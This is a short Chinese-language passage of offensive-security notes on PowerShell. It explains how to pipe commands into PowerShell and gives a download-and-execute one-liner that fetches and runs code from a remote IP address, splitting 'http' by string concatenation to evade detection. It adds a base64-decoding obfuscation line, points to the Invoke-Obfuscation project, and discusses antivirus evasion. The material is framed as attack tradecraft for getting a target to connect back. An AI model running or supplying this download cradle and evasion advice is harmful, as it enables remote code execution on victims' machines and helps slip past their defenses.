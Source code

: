 这行代码使用了两个主要命令：

- **`echo`**: 这在大多数shell中用于输出文本或其他命令的输出。在这里，它输出了一个字符串，这个字符串是一个PowerShell命令。
- **管道符(`|`)**: 将`echo`命令的输出直接传递给另一个命令。
- **`powershell -`**: 这部分指示PowerShell从标准输入（stdin）读取并执行命令。在这里，标准输入来自管道的前一个命令`echo`。

这种方式允许从命令行外部直接将命令字符串传递给PowerShell进行执行，通常用于执行复杂的一行脚本。

```
powershell -c "IEX(New-Object Net.WebClient)."DownloadString"('ht‘+’tp://192.168.52.23:80/a')"
```

- 利用`+` 拼接http达到上线(典型的powershell语法特性，以变量的方式来拆分HTTP）

### powershell代码混淆

#### 手工混淆

解码代码

```
$xx=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($DoIt))
```

#### 项目混淆

Invoke-Obfuscation：一款专门做 PowerShell 命令和脚本混淆的项目

github：https://github.com/danielbohannon/Invoke-Obfuscation

混淆教程：https://blog.csdn.net/m0_51345235/article/details/132910423

**省流结论：这些出名的项目基本都会被杀软记录，无法实现免杀**